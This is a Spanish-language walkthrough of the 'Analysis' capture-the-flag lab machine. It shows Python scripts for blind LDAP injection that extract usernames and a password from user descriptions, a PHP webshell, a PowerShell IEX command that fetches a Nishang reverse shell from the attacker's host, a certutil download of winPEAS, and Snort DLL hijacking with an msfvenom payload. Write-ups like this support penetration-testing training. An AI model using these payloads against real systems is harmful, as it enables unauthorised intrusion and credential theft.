



# Analysis

`Analysis` es una máquina Windows de dificultad difícil, que presenta varias vulnerabilidades, enfocadas en aplicaciones web, privilegios de Active Directory (AD) y manipulación de procesos. Inicialmente, una vulnerabilidad de Inyección LDAP nos proporciona credenciales para autenticarnos en una aplicación web protegida. A través de esta aplicación, se obtiene acceso al sistema local obteniendo la ejecución de comandos a través de una carga de archivo `HTA`.&#x20;

En el sistema objetivo, las credenciales de otro usuario se encuentran en los archivos de registro de la aplicación web. Posteriormente, al implementar un `API Hook` sobre `BCTextEncoder`, se descifra una contraseña cifrada y se usa para pivotar a otro usuario. Finalmente, al cambiar la contraseña de una cuenta que tiene derechos `DCSync` contra el dominio, se obtiene acceso administrativo al controlador de dominio.

<figure><figcaption></figcaption></figure>

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina Analysis.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -Pn -n 10.10.11.250 -oG allPorts
```

<figure><figcaption></figcaption></figure>

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX.


```bash
nmap -sCV -p53,80,88,135,139,389,445,464,593,636,3268,3269,3306,5985,9389,33060,47001,49664,49665,49666,49667,49671,49674,49675,49678,49679,49696,49709 10.10.11.250 -A -oN targeted -oX targetedXML
```


<figure><figcaption></figcaption></figure>

Transformaremos el archivo XML obtenido en el resultado de **nmap** y lo transformaremos en un archivo HTML. Levantaremos un servidor HTTP con Python3.

```bash
xsltproc targetedXML > index.html

python3 -m http.server 80
```

<figure><figcaption></figcaption></figure>

Accederemos a[ http://localhost](http://localhost) y comprobaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

Comprobaremos el nombre del dominio que nos enfrentamos, el nombre del equipo y que tipo de máquina nos enfrentamos.

```bash
ldapsearch -x -H ldap://10.10.11.250 -s base | grep defaultNamingContext

netexec smb 10.10.11.250
```

<figure><figcaption></figcaption></figure>

Procederemos a añadir la entrada en nuestro archivo **/etc/hosts**

```bash
catnp /etc/hosts | grep analysis.htb
```

<figure><figcaption></figcaption></figure>

## Website Enumeration

Probaremos de acceder al sitio web [http://analysis.htb](http://analysis.htb) que se encuentra expuesto en el puerto 80 (HTTP) y comprobaremos que tecnologías utiliza a través de **Wappalyzer**.

<figure><figcaption></figcaption></figure>

### DNS Enumeration

Probaremos de intentar enumerar a través del DNS (Puerto 53) para ver si encontramos algún registro DNS o si podemos realizar un **Zone Transfer Attack**, pero no encontramos nada más y tampoco podemos realizar dicho ataque.

```bash
dig ns @10.10.11.250 analysis.htb

dig @10.10.11.250 analysis.htb

dig axfr @10.10.11.250 analysis.htb
```

<figure><figcaption></figcaption></figure>

### Subdomain Enumeration

Por lo tanto, procederemos a intentar enumerar directorios que se encuentren en el sitio web. Comprobamos varios directorios.


```bash
gobuster dir -u http://analysis.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


<figure><figcaption></figcaption></figure>

Probando de acceder a ellos, comprobamos que nos reporta un error _403 Forbidden_, indicando que no disponemos de acceso a los directorios. Por lo tanto, tampoco podemos realizar "directory listing".

<figure><figcaption></figcaption></figure>

Probaremos de enumerar posibles subdominios del sitio web, entre los cuales encontramos un subdominio "internal" que nos da error 403 Forbidden, es decir, sin permisos para acceder, pero el subdominio existe.


```bash
wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.analysis.htb" http://analysis.htb
```


<figure><figcaption></figcaption></figure>

Añadiremos esta nueva entrada en nuestro archivo **/etc/hosts**.

```bash
catnp /etc/hosts | grep analysis.htb
```

<figure><figcaption></figcaption></figure>

Comprobaremos de acceder a [http://internal.analysis.htb](http://internal.analysis.htb) y comprobaremos que nos arroja un error 403.

<figure><figcaption></figcaption></figure>

Intentaremos enumerar directorios para este subdominio que hemos encontrado a través de **gobuster**, comprobamos que encontramos varios directorios.


```bash
gobuster dir -u http://internal.analysis.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200
```


<figure><figcaption></figcaption></figure>

Sabemos que la página tiene como lenguaje de programación PHP. Por lo tanto, probaremos de intentar listar posibles páginas PHP que se encuentren en el directorio "users" del subdominio "internal".

Verificamos que encontramos un archivo PHP en [http://internal.analysis.htb/users/list.php](http://internal.analysis.htb/users/list.php)


```bash
gobuster dir -u http://internal.analysis.htb/users/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -x php
```


Probaremos de intentar listar posibles páginas PHP que se encuentren en el directorio "employees" del subdominio "internal".

Verificamos que encontramos un archivo PHP en[ http://internal.analysis.htb/employees/login.php](http://internal.analysis.htb/employees/login.php)


```bash
gobuster dir -u http://internal.analysis.htb/employees/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -x php
```


<figure><figcaption></figcaption></figure>

Probando de acceder a [http://internal.analysis.htb/users/list.php](http://internal.analysis.htb/users/list.php) comprobamos que nos indica que le tenemos que pasar un parámetro para que funcione la página, desconocemos el nombre del parámetro pero podremos intentar fuzzearlo más adelante.

<figure><figcaption></figcaption></figure>

Si accedemos a [http://internal.analysis.htb/employees/login.php](http://internal.analysis.htb/employees/login.php) nos pide credenciales que no disponemos.

<figure><figcaption></figcaption></figure>

### Web Fuzzing

Intentaremos de realizar fuzzing a la web para intentar encontrar el parámetro que nos hace falta para la página [http://internal.analysis.htb/users/list.php](http://internal.analysis.htb/users/list.php)

En el primer escaneo, todos nos devuelve 17ch de respuesta, que equivale al mensaje que nos aparecía de (missing parameter).


```bash
wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt 'http://internal.analysis.htb/users/list.php?FUZZ=test'
```


<figure><figcaption></figcaption></figure>

Por lo tanto, pensando que el total de carácteres cambiará si le pasamos la variable correcta, procedemos a ocultar el total de carácteres (17). Encontramos que parece ser que hay una variable válida nombrada "name".


```bash
wfuzz -c --hc=404 --hh=17 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt 'http://internal.analysis.htb/users/list.php?FUZZ=test'
```


<figure><figcaption></figcaption></figure>

## Users Enumeration

### Kerberos - User Brute Force Enumeration (Kerbrute)

Por otro lado, procederemos a intentar enumerar usuarios válidos del dominio a través de **Kerbrute**.


```bash
kerbrute userenum --dc 10.10.11.250 -d analysis.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```


<figure><figcaption></figcaption></figure>

### RPC Enumeration and RID Brute Force Attack - \[FAILED]

Procederemos a realizar una enumeración de usuarios a través del RPC y a realizar un RID Brute Force Attack, sin resultado ninguno.

```bash
rpcclient -U "" -N 10.10.11.250

netexec smb 10.10.11.250 -u 'guest' -p '' --rid-brute
```

<figure><figcaption></figcaption></figure>

### AS-REP Roasting Attack (GetNPUsers) - \[FAILED]

De la lista de usuarios que hemos sacado con **Kerbrute**, podemos ir intentando a realizar unn **AS-REP Roasting Attack**.

```bash
impacket-GetNPUsers -no-pass -usersfile users.txt analysis.htb/ 2>/dev/null
```

<figure><figcaption></figcaption></figure>

## LDAP Injection

Sobre la página web que hemos encontrado ([http://internal.analysis.htb/users/list.php](http://internal.analysis.htb/users/list.php)), probaremos de intentar de enumerar por ejemplo el usuario "Administrator", no obtenemos respuesta ninguna.

_http://internal.analysis.htb/users/list.php?name=administrator_

<figure><figcaption></figcaption></figure>

Probando uno de los usuarios que hemos enumerado anteriormente con **Kerbrute** comprobamos que si nos aparece el resultado. Nos quita el apartado "CONTACT\_" y nos aparece el campo del usuario en "Usernam" y su respectico First y Last Name.

_http://internal.analysis.htb/users/list.php?name=jangel_

<figure><figcaption></figcaption></figure>

Intentaremos realizar un SQL Injection (SQLI) para ver a qué nos enfrentamos, ya que de momento no sabemos si es una QUERY de LDAP o SQL. Probando una SQLI básica, comprobamos que no nos muestra nada más.

_http://internal.analysis.htb/users/list.php?name=administrator' or 1=1;-- -_

<figure><figcaption></figcaption></figure>

Probaremos la siguiente SQLI para ver si la página tarda en responder 5 segundos y así saber si es vulnerable a SQLI y corre un servicio SQL detrás de esta QUERY. Comprobamos que desaparece el formulario y no nos realiza el **sleep** de 5 segundos.

_http://internal.analysis.htb/users/list.php?name=administrator' and sleep(5);-- -_

<figure><figcaption></figcaption></figure>

Probando de pasarle el siguiente valor () y comprobamos que vuelve a desaparecer el contenido del formulario. Esto nos puede dar una gran pista, ya que podemos pensar que lo que detrás está de la QUERY son consultas LDAP.

_http://internal.analysis.htb/users/list.php?name=()_

<figure><figcaption></figcaption></figure>

Para acabar de confirmar que se trate de QUERYS de LDAP, probaremos de intentar que nos muestre el primer resultado del valor que empiece por 'a' y utilizar el '\*' para completar el resto del campo. Comprobamos que nos muestra el primer resultado que empieza por 'a', por lo tanto, parece ser que la QUERY que hay detrás es de LDAP.

_http://internal.analysis.htb/users/list.php?name=a\*_

<figure><figcaption></figcaption></figure>

### Creating a Python script to easily exploit LDAP Injection

Procederemos a crear un script en Python para automatizar la explotación de **LDAP Injection**.

En este primer script de prueba, testearemos como funciona la página web y en qué campos se almacena el valor del "username" para quedarnos con ese dato.

En este caso, hemos parado el script con **pdb.set\_trace()** y al ejecutar el script, mostraremos el contenido de **r.text**, comprobamos que el usuario se almacena entre las etiquetas "\<strong>".

A través de **re.findall** nos quedaremos con el valor que hay entre las etiquetas "\<strong>".

<figure><figcaption></figcaption></figure>

Esto sería lo mismo que revisarlo des de la página misma con (Ctrl + U).

<figure><figcaption></figcaption></figure>

### Discovering valid users through LDAP Injection

Crearemos el siguiente script en Python que a través de fuerza bruta, irá enumerando usuarios válidos de LDAP a través del formulario haciendo uso de **LDAP Injection**, utilizando el \* como comodín.

```python
#!/usr/bin/env python3

import requests
import re
import signal
import pdb
import time
import sys

from termcolor import colored
from pwn import *

def def_handler(sig, frame):
    print(colored(f"\n\n[!] Saliendo...\n", 'red'))
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

main_url = 'http://internal.analysis.htb/users/list.php?name='
characters = string.ascii_lowercase

def ldapInjection():

    p1 = log.progress("LDAP Injection")
    p1.status("Starting LDAP Injection")

    time.sleep(2)

    for first_character in characters:
        for second_character in characters:
            p1.status(main_url + f"{first_character}{second_character}*")
            r = requests.get(main_url + f"{first_character}{second_character}*")
            username = re.findall(r'<strong>(.*?)</strong>', r.text)[0]

            if "CONTACT_" not in username:
                print(colored(f"[+] Valid user: {colored(username, 'blue')}", 'yellow'))

if __name__ == '__main__':
    ldapInjection()
```

Probaremos de ejeuctar el script realizado y comprobamos que nos ha enumerado los siguientes usuarios.

```bash
python3 ldap_injection.py
```

<figure><figcaption></figcaption></figure>

Estos usuarios los añadiremos a la lista de usuarios que ya disponemos, y como hay usuarios nuevos, intentaremos nuevamente de realizar un **AS-REP Roasting Attack**, sin éxito tampoco.

```bash
impacket-GetNPUsers -no-pass -usersfile users.txt analysis.htb/ 2>/dev/null
```

<figure><figcaption></figcaption></figure>

Probaremos de realizar un **password spraying** para ver si algún usuario utiiza su mismo nombre de usuario como contraseña. No obtenemos éxito.


```bash
netexec smb 10.10.11.250 -u users.txt -p users.txt --no-bruteforce --continue-on-success
```


<figure><figcaption></figcaption></figure>

Intentaremos de realizar un ataque de fuerza bruta para ver si algún usuario sus credenciales es el nombre de usuario de otros usuarios de la lista. Tampoco obtenemos éxito ninguno.

```bash
netexec smb 10.10.11.250 -u users.txt -p users.txt --continue-on-success
```

<figure><figcaption></figcaption></figure>

### Enumerating user description through LDAP Injection + Information Leakage

Crearemos un nuevo script de Python, modificando el que ya tenemos para intentar enumerar otro atributo de LDAP como es el campo de "Description" para ver si algún usuario dispone de algúna informacion/contraseña en su usuario.

En este primer script, probaremos de ver si algunos de los usuarios que disponemos, tiene descripción. Cuando tengamos algún usuario que tenga descripción, enumeraremos a través de fuerza bruta el contenido de la descripción del usuario en LDAP.

```python
#!/usr/bin/env python3

import requests
import re
import signal
import pdb
import time
import sys

from termcolor import colored
from pwn import *

def def_handler(sig, frame):
    print(colored(f"\n\n[!] Saliendo...\n", 'red'))
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

main_url = 'http://internal.analysis.htb/users/list.php?name='
characters = string.ascii_lowercase + string.ascii_uppercase + string.digits 

def ldapInjection():

    p1 = log.progress("LDAP Injection")
    p1.status("Starting LDAP Injection")

    users = ['jdoe','ajohnson','cwilliams','wsmith','jangel','technician','amanson','badam','lzen']

    p2 = log.progress("Username")
    p3 = log.progress("Description")

    for user in  users:

        p2.status(f"Enumerating {user} description")

        for character in characters:
            p1.status(main_url + f"{user})(description={character}*")
            r = requests.get(main_url + f"{user})(description={character}*")
            username = re.findall(r'<strong>(.*?)</strong>', r.text)[0]

            if user in username:
                p3.status(character)
                time.sleep(10)
                break

if __name__ == '__main__':
    ldapInjection()
```

Comprobamos que hemos encontrado que el usuario "technician" dispone de descripción, una descripción que empiza por "9", un tanto peculiar para ser una descripción de un usuario LDAP.

```bash
python3 enum_users_description_ldap_injection.py
```

<figure><figcaption></figcaption></figure>

Como ya sabemos que el usuario "technician" dispone de descripción. Realizaremos un ataque de fuerza bruta para enumerar el contenido de la descripción a través del script de Pyton.

```python
#!/usr/bin/env python3

import requests
import re
import signal
import pdb
import time
import sys
import string

from termcolor import colored
from pwn import *

def def_handler(sig, frame):
    print(colored(f"\n\n[!] Saliendo...\n", 'red'))
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

main_url = 'http://internal.analysis.htb/users/list.php?name='
characters = string.ascii_lowercase + string.ascii_uppercase + string.digits + '.*&$€?!¿¡%@#'

def ldapInjection():

    p1 = log.progress("LDAP Injection")
    p1.status("Starting LDAP Injection")

    time.sleep(2)

    p2 = log.progress("Description")

    description = ""

    for position in range(30):
        for character in characters:
            try:
                p1.status(main_url + f"technician)(description={description}{character}*")
                r = requests.get(main_url + f"technician)(description={description}{character}*")
                username = re.findall(r'<strong>(.*?)</strong>', r.text)[0]

                if "technician" in username:
                    description += character
                    p2.status(character)
                    break
            except:
                description += character
                p2.status(character)
                break

if __name__ == '__main__':

    ldapInjection()
```

Ejecutaremos el script de Python y a través de fuerza bruta comprobaremos el contenido de la descripción, una descripción un tanto extraña, que más bien parece una contraseña.

```bash
python3 user_technician_description_ldap_injection.py
```

<figure><figcaption></figcaption></figure>

Verificaremos con **netexec** de validar las credenciales en SMB y WinRM, comprobamos que las credenciales son válidas pero no disponemos de acceso para acceder mediante **Evil-WinRM** en el protocolo de **WinRM**.

```bash
netexec smb 10.10.11.250 -u technician -p '97NTtl*4QP96Bv'

netexec winrm 10.10.11.250 -u technician -p '97NTtl*4QP96Bv'
```

<figure><figcaption></figcaption></figure>

## Kerberoasting Attack (GetUserSPNs) - \[FAILED]

Como ya disponemos de unas credenciales válidas, probaremos de realizar un **Kerberoasting Attack** para intentar obtener un Ticket Granting Service (TGS). No encontramos ningún TGS.

<figure><figcaption></figcaption></figure>

## RID Brute Force Attack

Probaremos de realizar un **RID Brute Force Attack** para enumerar usuarios a través del _Relative Identifier (RID)_ con **netexec** y (--rid-brute). Comprobamos que encontramos más usuarios válidos.

```bash
netexec smb 10.10.11.250 -u technician -p '97NTtl*4QP96Bv' --rid-brute
```

<figure><figcaption></figcaption></figure>

Como queremos quedarnos solamente con los nombres de usuarios, jugaremos con expresiones regulares (regex) para quedarnos con el output que nos interesa y añadiremos el contenido en el archivo "users.txt" que ya existen los otros usuarios enumerados, es decir, los añadirá sin eliminar el contenido actual.


```bash
netexec smb 10.10.11.250 -u technician -p '97NTtl*4QP96Bv' --rid-brute | grep SidTypeUser | rev | awk {'print $2'} | rev | sed 's/ANALYSIS\\//g'

netexec smb 10.10.11.250 -u technician -p '97NTtl*4QP96Bv' --rid-brute | grep SidTypeUser | rev | awk {'print $2'} | rev | sed 's/ANALYSIS\\//g' >> users.txt
```


<figure><figcaption></figcaption></figure>

Como tenemos usuarios repetids, ordenadoremos los resultados, los filtraremos para quedarnos con valores únicos y a través de **sponge** lo pasaremos nuevamente el resultado al archivo "users.txt".

```bash
sort users.txt | uniq | sponge users.txt

catnp users.txt
```

<figure><figcaption></figcaption></figure>

## AS-REP Roasting Attack (GetNPUsers) - \[FAILED]

Ya que disponemos en principio de todos los usuarios válidos, probaremos nuevamente de realizar un **AS-REP Roasting Attack** para intentar obtener un Ticket Granting Ticket (TGT) válido. No obtenemos resultado ninguno nuevamente.

```bash
impacket-GetNPUsers -no-pass -usersfile users.txt analysis.htb/ 2>/dev/null
```

<figure><figcaption></figcaption></figure>

## LDAP Enumeration

Probaremos de enumerar el LDAP a través de **ldapdomaindump** con las credenciales obtenidas.

```bash
ldapdomaindump -u 'analysis.htb\technician' -p '97NTtl*4QP96Bv' 10.10.11.250 -o ldap
```

<figure><figcaption></figcaption></figure>

Revisando el grupo de "Remote Management Users" comprobamos que los usuarios que disponen de permisos para acceder por remoto son los siguientes, también comprobamos que el equipo se encuentra en francés.

<figure><figcaption></figcaption></figure>

## Exploitation of a customized analysis panel

Probaremos de autenticarnos en el panel de inicio de sesión de [http://internal.analysis.htb/employees/login.php ](http://internal.analysis.htb/employees/login.php)con las credenciales del usuario "technician".

<figure><figcaption></figcaption></figure>

Comprobamos que logramos acceder al panel de Analysis y de las tecnologías que utiliza el sitio web, entre ellos, lenguaje de programación PHP.

<figure><figcaption></figcaption></figure>

### Creating a PHP webshell for command execution + Reverse Shell with Nishang

En el apartado de "SOC Report" vemos que podemos subir un archivo que se ejecutará en una Sandvoz por parte de los analistas SOC. Para ello crearemos un archivo PHP de una WebShell simple.

```php
<?php
  echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```

<figure><figcaption></figcaption></figure>

Subiremos el archivo "cmd.php" de la WebShell que hemos creado.

<figure><figcaption></figcaption></figure>

Comprobaremos que se ha subido correctamente el archivo.

<figure><figcaption></figcaption></figure>

Como no sabemos donde se sube el archivo, probaremos con **gobuster** de enumerar algún directorio donde se suban estos archivos, encontramos el directorio "uploads".


```bash
gobuster dir -u http://internal.analysis.htb/dashboard/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200
```


<figure><figcaption></figcaption></figure>

Probaremos de acceder a la WebShell que hemos subido y probaremos de ejeuctar comandos, por ejemplo "whoami" para saber el usuario que ejecuta la página web.

_http://internal.analysis.htb/dashboard/uploads/cmd.php?cmd=whoami_

<figure><figcaption></figcaption></figure>

Como ya tenemos un Remote Code Execution (RCE), probaremos de establarnos una Reverse Shell. Nos pondremos con **nc** en escucha por el puerto 443.

```bash
rlwrap -cAr nc -nlvp 443
```

<figure><figcaption></figcaption></figure>

Utilizaremos el script de .ps1 de **Nishang** para establecernos una Reverse Shell, modificaremos el contenido de "Invoke-PowerShellTcp.ps1" y al final del script pondremos el Invoke para que al importarlo en memoria se ejecute la Reverse Shell en el equipo víctima.

```bash
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .

mv Invoke-PowerShellTcp.ps1 PS.ps1

nvim PS.ps1

catnp PS.ps1 | tail -n 1

python3 -m http.server 80
```

<figure><figcaption></figcaption></figure>

Pasaremos la ejecución del comando con Powershell y IEX para importarlo en memoria el Script que tenemos nosotros en nuestro servidor HTTP de Python.

_http://internal.analysis.htb/dashboard/uploads/cmd.php?cmd=powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.14/PS.ps1')_

<figure><figcaption></figcaption></figure>

Comrpobamos que ganamos acceso al equipo de ANALYSIS.

<figure><figcaption></figcaption></figure>

## Initial Access

### System enumeration with winPEAS

Probaremos de enumerar el sistema en busca de vías potenciales para escalar nuestro privilegio, ya que actualmente somo suna cuenta de servicio (svc).

Nos copiaremos el winPEASx64.exe en nuestro directorio actual de trabajo y a través del servidor HTTP Python lo compartiremos para que en el equipo de Windows lo descarguemos a través de **certutil.exe**.


```bash
python3 -m http.server 80

certutil.exe -f -urlcache -split http://10.10.14.14/winPEASx64.exe winPEAS.exe
```


<figure><figcaption></figcaption></figure>

Ejecutando el **winPEAS** comprobamos que ha encontrado las credenciales almacenadas en el AutoLogon del usuario "jdoe".

<figure><figcaption></figcaption></figure>

### ShellOver with Evil-WinRM

Intentaremos de validar las credenciales para autenticarnos en el SMB y comprobar que podemos acceder por WinRM, ya que en principio según habíamos enumerado anteriormente, el usuario "jdoe" formaba parte del grupo de "Remote Management Users".

```bash
netexec smb 10.10.11.250 -u jdoe -p '7y4Z4^*y9Zzj'

netexec winrm 10.10.11.250 -u jdoe -p '7y4Z4^*y9Zzj'
```

<figure><figcaption></figcaption></figure>

Probaremos de acceder al WinRM a travésd e **evil-winrm** y las credenciales de _jdoe_. Comproobamos la flag de **user.txt**

```bash
evil-winrm -i 10.10.11.250 -u jdoe -p '7y4Z4^*y9Zzj'
```

<figure><figcaption></figcaption></figure>

## Privilege Escalation

### Abusing Snort (Leading Dynamic Modules)

Revisando la raíz del equipo, comprobamos que hay una carpeta llamada [Snort ](https://www.fortinet.com/lat/resources/cyberglossary/snort)que es un sistema de detección de intrusos.

<figure><figcaption></figcaption></figure>

Revisando el manual de Snort, comprobamos que aparece un apartado de configuración que habla sobre "Dynamic Modules", probaremos de intentar ver si podemos realizar una explotación de esto.

<figure><figcaption></figcaption></figure>

Comprobaremos la ruta donde se guardan y ejecutan estos módulos dinámicos, también comprobaremos si disponemos de permisos de lectura, escritura y ejecución sobre la carpeta.

```powershell
findstr dynamicpreprocessor *

cd C:\Snort\lib\

icacls snort_dynamicpreprocessor

cd snort_dynamicpreprocessor
```

<figure><figcaption></figcaption></figure>

### Creation of malicious DLL with msfvenom for loading into snort

A través de **msfvenom** crearemos un archivo DLL malicioso de una Reverse Shell. Levantaremos un servidor HTTP con Python para compartir este DLL con el equipo que queremos comprometer y con **certutil.exe** nos descargaremos el DLL malicioso.

En otra terminal nos pondremos en escucha por el puerto que hemos indicado en el DLL malicioso y comprobamos que después de unos minutos, ganamos acceso a la máquina y quien ejecutaba el Snort era el usuario "Administrator", por dicho motivo ganamos acceso a la máquina como dicho usuario.

<figure><figcaption></figcaption></figure>
